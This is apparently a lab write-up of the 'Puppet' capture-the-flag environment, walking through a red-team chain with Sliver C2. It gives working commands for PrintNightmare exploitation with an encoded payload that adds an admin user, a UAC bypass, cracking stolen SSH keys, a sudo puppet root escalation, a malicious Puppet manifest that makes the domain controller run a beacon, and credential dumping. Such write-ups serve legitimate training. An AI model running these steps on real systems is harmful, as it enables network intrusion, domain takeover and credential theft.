Puppet Write-up

Puppet is a quick, challenging lab built for pentesters and red teamers, featuring a preconfigured Sliver C2 setup. The engagement began with an active Sliver beacon on the Windows file server (file01), where PrintNightmare (CVE-2021-34527) was used to escalate to SYSTEM and dump credentials. Using those creds, I moved laterally to the Linux host puppet, which served as both the Puppet master and the Sliver C2 server, and escalated to root. From there, I leveraged my access to pivot to the Domain Controller (dc01), performed another credential dump, and captured the final flag. The environment consisted of three main systems: FILE01 (Windows), PUPPET (Linux Puppet master/C2), and DC01 (Domain Controller).
Enumeration
Nmap Scan
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.5
ftp-anon: Anonymous FTP login allowed (FTP code 230)
-rw----r-- 1 0 0 2119 Oct 11 2024 red_127.0.0.1.cfg
_-rwxr-xr-x 1 0 0 36515304 Oct 12 2024 sliver-client_linux
ftp-syst:
STAT:
FTP server status:
Connected to ::ffff:10.10.15.192
Logged in as ftp
TYPE: ASCII
No session bandwidth limit
Session timeout in seconds is 300
Control connection is plain text
Data connections will be plain text
At session startup, client count was 1
vsFTPd 3.0.5 - secure, fast, stable
End of status
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.11 (Ubuntu Linux; protocol 2.0)
ssh-hostkey:
256 e2:70:df:74:8c:ed:e9:81:46:16:e4:88:bc:7f:69:32 (ECDSA)
_ 256 bf:f0:f1:8f:5b:66:93:9b:cb:8b:bc:78:37:b8:b8:3a (ED25519)
8140/tcp open ssl/http WEBrick httpd 1.7.0 (Ruby 3.0.2 (2021-07-07); OpenSSL 3.0.2)
ssl-cert: Subject: commonName=puppet.puppet.vl
Subject Alternative Name: DNS:puppet, DNS:puppet.puppet.vl
Not valid before: 2024-10-11T18:01:13
_Not valid after: 2029-10-11T18:01:13
_ssl-date: TLS randomness does not represent time
8443/tcp open ssl/https-alt?
_ssl-date: TLS randomness does not represent time
ssl-cert: Subject:
Subject Alternative Name: DNS:
Not valid before: 2024-09-17T08:52:10
_Not valid after: 2027-09-17T08:52:10
31337/tcp open ssl/Elite?
ssl-cert: Subject: commonName=multiplayer
Subject Alternative Name: DNS:multiplayer
Not valid before: 2024-05-11T12:31:48
_Not valid after: 2027-05-11T12:31:48
_ssl-date: TLS randomness does not represent time
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov 2 22:32:02 2025 -- 1 IP address (1 host up) scanned in 132.83 seconds
There is FTP and SSH open which are the most useful ones. We cant log into ssh but we can log into FTP with anonymous access
ftp 10.13.38.33

We can see there is two files. If you already have sliver installed then you do not need the sliver-client_linux just download the red_127.0.0.1.cfg file.
mget red_127.0.0.1.cfg
If you cat out the file we will see it is a profile. We can use it to interact with it. Before we do so we need to modify it first which we need to change the lhost to the victim IP.

Once modified we need to import the operator.
sliver-client import red_127.0.0.1.cfg

Once that is done we can start up sliver and choose the red operator.

Once we are in we can run the command beacons to view the available beacons. You will see a lot of beacons with different users so be aware of spoilers. Now the intended way is to use the user called cobruce.smith. Now to use this beacon we need to copy the ID and then use the use command
use a005a40f

Now we need to establish a session. You can tell if you have a beacon or session by the color such as blue or red. A beacon is blue and a session is red. The difference between a beacon and a session is that a beacon uses asynchronous communication and a session uses synchronous communication. A beacon commands are not executed immediately and is more stealthy. A session establishes a real time persistent connection for immediate interaction.
Now to establish a session we need to type the command interactive
interactive

Now we have the ID for that session as well as if we type sessions we will see the session with the ID. Now we can use the sessions command to see the session and then use the use command to use the session.
use "session id"
Now we have a session. Before we move forward we need to know that this machine is being managed by puppet.
Puppet is an open-source configuration management tool that helps automate the administration of your infrastructure’s software and hardware. It is designed to manage the configuration of Unix-like and Microsoft Windows systems declaratively. The user describes system resources and their state, either using Puppet’s declarative language or a Ruby-based DSL.
This helped me out to understand more about puppet Puppet Guide
From now I would upload a script called PrivescCheck from itm4n which is an amazing priv escalation checker script. It is similar to windpeas. First we need to move the script into the C:\Temp directory to upload the script.
cd C:\Temp
From here we can upload the script using the upload command.
upload /home/kali/Downloads/PrivescCheck.ps1

Now we can run the command sharpsh to run powershell scripts
msharpsh -t 1000 -- -c Invoke-PrivescCheck -u PrivescCheck.ps1
As we can see there is a popular vulnerability called printnightmare. We can take advantage of this with this POC from JohnHammond CVE-2021-34527

We will upload the script to exploit printnightmare in the temp directory and run it. Before running the payload we first need to modify the command. We need to encode the command with UTF-16 which we can do it in two ways one in powershell command or one with cyberchef I will show both methods.
CyberChef Method

The command is from the CVE-2021-34527 github repo. Now we can run the command powershell and then paste the encoded command.
Powershell Encode Command
This will encode the command properly for us with powershell.
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('Invoke-Nightmare -DriverName "Xerox" -NewUser "pixelrazer" -NewPassword "Password123"'))

Now we can execute our command.
sharpsh -i -s -t 1000 -- -u CVE-2021-34527.ps1 -e -c SQBuAHYAbwBrAGUALQBOAGkAZwBoAHQAbQBhAHIAZQAgAC0ARAByAGkAdgBlAHIATgBhAG0AZQAgACIAWABlAHIAbwB4ACIAIAAtAE4AZQB3AFUAcwBlAHIAIAAiAHAAaQB4AGUAbAByAGEAegBlAHIAIgAgAC0ATgBlAHcAUABhAHMAcwB3AG8AcgBkACAAIgBQAGEAcwBzAHcAbwByAGQAMQAyADMAIgA=

Now we need to verify that our user was created. There is plenty of methods to do so. We can use the sa-netuser command to verify our user was created.
sa-netuser pixelrazer

Now we want to gain shell access to our new user. In order to do so we need to run a process with that user in this case it will be triggering the puppet beacon.
runas -u "pixelrazer" -P "Password123" -p 'C:\ProgramData\Puppet\puppet-update.exe'

If we run the command beacons we can see that the username part has an error which typically means UAC is blocking it due to having a administrator token. Even if we are apart of the administrators group

To fix this we need to do a UAC bypass which we will use this BOF from icyguider. UAC-BOF
git clone https://github.com/icyguider/UAC-BOF-Bonanza
Cloning into 'UAC-BOF-Bonanza'...
remote: Enumerating objects: 70, done.
remote: Counting objects: 100% (70/70), done.
remote: Compressing objects: 100% (54/54), done.
remote: Total 70 (delta 17), reused 61 (delta 15), pack-reused 0 (from 0)
Receiving objects: 100% (70/70), 137.66 KiB | 150.00 KiB/s, done.
Resolving deltas: 100% (17/17), done.
cd UAC-BOF-Bonanza
make
mkdir -p bin
mkdir -p bin/standalone
x86_64-w64-mingw32-g++ -c src/SspiUacBypassBOF.cpp -w -o bin/SspiUacBypassBOF.o
x86_64-w64-mingw32-g++ src/standalone/SspiUacBypass.cpp src/standalone/CreateSvcRpc.cpp -static -lsecur32 -s -w -o bin/standalone/SspiUacBypass.exe
Then the compiled SspiUacBypass extension (a directory containing the BOF and its definition) was then copied into the Sliver client's local extensions directory ~/.sliver-client/extensions/
cp -r SspiUacBypass ~/.sliver-client/extensions/
Back in the Sliver in the medium-integrity beacon context, the new extension was loaded.
extensions load /home/kali/UAC-BOF-Bonanza/SspiUacBypass
Now we can run the UAC bypass.
SspiUacBypass 'C:\ProgramData\puppet\puppet-update.exe'

We can now switch to the new beacon that will allow us to become SYSTEM. We can get a session as well.

Now we know most people would start to dump the hashes which touches LSASS. That is bad opsec and should be avoided. There are other ways of moving laterally. First lets enumerate shares.
sa-netshares file01
sa-netshares dc01

Trying to access the dc01 it share gives us access denied. That should be our pivot to try gain access. Since we are system user we can view running process and if there is a user running a process we can impersonate that user by taking over the process such as migration/injection. To see the running processes we can use the command ps.
ps
4708 3900 PUPPET\svc_puppet_win_t1 x86_64 powershell.exe 0
3700 4708 PUPPET\svc_puppet_win_t1 x86_64 conhost.exe 0
As we can see there is a process called powershell.exe running as PUPPET\svc_puppet_win_t1 which is the puppet service account. We can try to migrate to that process in order to gain access to the puppet service account.

Now we are impersonating the puppet service account. Lets see if we can access the dco1 it share.

The .ssh share is interesting because it contains the ssh keys so we can download it

Now we need to crack the ssh keys with john the ripper because it is encrypted.
ssh2john ed25519 > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt

We then need to convert the ssh keys to linux format so we can use them.
dos2unix ed25519
Once that is done we need to give it the correct perms
chmod 600 ed25519
Now we can use the ssh keys to login to the machine.
ssh 'svc_puppet_lin_t1@puppet.vl'@10.13.38.33 -i ed25519

Once we are in we can do one quick privilege escalation with the sudo -l command.
sudo -l

With this we can do a simple priv escalation https://gtfobins.github.io/gtfobins/puppet/
sudo /usr/bin/puppet apply -e "exec { '/bin/sh -c \"chmod +s /bin/bash\"': }"
Now we can use the /bin/bash -p command to get a root shell.
Since we are root we can view the list of client certificates on the master showed that dc01.puppet.vl and file01.puppet.vl were registered Puppet agents of this master (pm01 / puppet.puppet.vl), which was important for the next steps.
sudo puppet cert list --all

We can see that both file01 and the dc are controlled by this puppet master instance. Although we don’t know which accounts the agents run as (besides for file01) we can guess that it’s probably svc_puppet_win_t0 for the domain controller. Let’s find a way to run a command there. First we create a directory
mkdir -p /etc/puppet/code/environments/production/manifests
After that we create a file named site.pp which is just Puppet code that gets evaluated by the Puppet compiler (master).
nano /etc/puppet/code/environments/production/manifests/site.pp
node 'dc01.puppet.vl' {
exec { 'pwned':
command => 'C:\\Windows\\System32\\cmd.exe /c \\\\file01.puppet.vl\\files\\puppet-update.exe',
logoutput => true,
}
}
node default {
notify { 'This is the default node': }
}
Then after you save the file we need to apply it.
puppet apply /etc/puppet/code/environments/production/manifests/site.pp
Sometimes the file named puppet-update.exe wont be in the files share so what can we do? we need to add it so go back to the system user and we will move the file
sharpsh -t 1000 -- -e -c QwBvAHAAeQAtAEkAdABlAG0AIAAtAFAAYQB0AGgAIAAnAEMAOgBcAFAAcgBvAGcAcgBhAG0ARABhAHQAYQBcAHAAdQBwAHAAZQB0AFwAcAB1AHAAcABlAHQALQB1AHAAZABhAHQAZQAuAGUAeABlACcAIAAtAEQAZQBzAHQAaQBuAGEAdABpAG8AbgAgACcAXABcAGYAaQBsAGUAMAAxAC4AcAB1AHAAcABlAHQALgB2AGwAXABmAGkAbABlAHMAXABwAHUAcABwAGUAdAAtAHUAcABkAGEAdABlAC4AZQB4AGUAJwA=

Now we wait for the beacon to connect.



As we can see we own the domain. The last flag is hidden so to uncover it we need to run sharpdpapi.
sharpdpapi machinecredentials